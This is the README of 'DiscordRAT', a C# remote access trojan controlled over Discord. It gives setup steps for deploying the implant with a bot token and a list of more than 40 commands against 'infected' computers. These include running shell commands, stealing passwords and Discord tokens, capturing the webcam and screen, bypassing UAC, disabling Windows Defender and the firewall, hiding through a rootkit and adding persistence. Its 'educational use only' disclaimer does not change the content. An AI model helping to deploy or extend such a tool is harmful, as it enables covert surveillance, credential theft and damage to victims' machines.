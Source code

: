 # DiscordRAT
Discord Remote Administration Tool fully written in c#.

This is a RAT controlled over Discord with over 40 post exploitation modules.

The output file size also around ~75kb!

## **Disclaimer:**

This tool is for educational use only, the author will not be held responsible for any misuse of this tool.

 ## **Setup Guide:**

You will first need to register a bot with the Discord developer portal and then add the bot to the Discord server that you want to use to control the bot (make sure the bot has administrator privileges in the Discord server).
Once the bot is created open ```Client-built.exe``` in the build file and paste the token in, and paste the guild ID of where you invited the bot

Then if the steps above were successful, you can launch the file by executing ```build.exe```. It will create a new channel and post a message on the server with a generated session number.\
Now your bot should be available to use ! 

**Requirements:**\
Windows(x64)

## **Commands**
```
Available commands are :
--> !message = Show a message box displaying your text / Syntax  = "!message example"
--> !shell = Execute a shell command /Syntax  = "!shell whoami"
--> !voice = Make a voice say outloud a custom sentence / Syntax = "!voice test"
--> !admincheck = Check if program has admin privileges
--> !cd = Changes directory
--> !dir = display all items in current dir
--> !download = Download a file from infected computer
--> !upload = Upload file to the infected computer / Syntax = "!upload file.png" (with attachment)
--> !uploadlink = Upload file to the infected computer / Syntax = "!upload link file.png"
--> !delete = deletes a file / Syntax = "!delete / path to / the / file.txt"
--> !write = Type your desired sentence on computer
--> !wallpaper = Change infected computer wallpaper / Syntax = "!wallpaper" (with attachment)
--> !clipboard = Retrieve infected computer clipboard content
--> !idletime = Get the idle time of user's on target computer
--> !currentdir = display the current dir
--> !block = Blocks user's keyboard and mouse / Warning : Admin rights are required
--> !unblock = Unblocks user's keyboard and mouse / Warning : Admin rights are required
--> !screenshot = Get the screenshot of the user's current screen
--> !exit = Exit program
--> !kill = Kill a session or all sessions / Syntax = "!kill session-3" or "!kill all"
--> !uacbypass = attempt to bypass uac to gain admin by using windir and slui
--> !shutdown = shutdown computer
--> !restart = restart computer
--> !logoff = log off current user
--> !bluescreen = BlueScreen PC
--> !datetime = display system date and time
--> !prockill = kill a process by name / syntax = "!kill process"
--> !disabledefender = Disable windows defender(requires admin)
--> !disablefirewall = Disable windows firewall(requires admin)
--> !audio = play a audio file on the target computer / Syntax = "!audio" (with attachment)
--> !critproc = make program a critical process. meaning if its closed the computer will bluescreen(Admin rights are required)
--> !uncritproc = if the process is a critical process it will no longer be a critical process meaning it can be closed without bluescreening(Admin rights are required)
--> !website = open a website on the infected computer / syntax = "!website www.google.com"
--> !disabletaskmgr = disable task manager(Admin rights are required)
--> !enabletaskmgr = enable task manager(if disabled)(Admin rights are required)
--> !startup = add to startup(when computer go on this file starts)
--> !geolocate = Geolocate computer using latitude and longitude of the ip adress with google map / Warning : Geolocating IP adresses is not very precise
--> !listprocess = Get all process's
--> !password = grab all passwords
--> !rootkit = Launch a rootkit (the process will be hidden from taskmgr and you wont be able to see the file)(Admin rights are required)
--> !unrootkit = Remove the rootkit(Admin rights are required)
--> !getcams = Grab the cameras names and their respected selection number
--> !selectcam = Select camera to take a picture out of (default will be camera 1)/ Syntax "!selectcam 1"
--> !webcampic = Take a picture out of the selected webcam
--> !grabtokens = Grab all discord tokens on the current pc
--> !help = This help menu
```

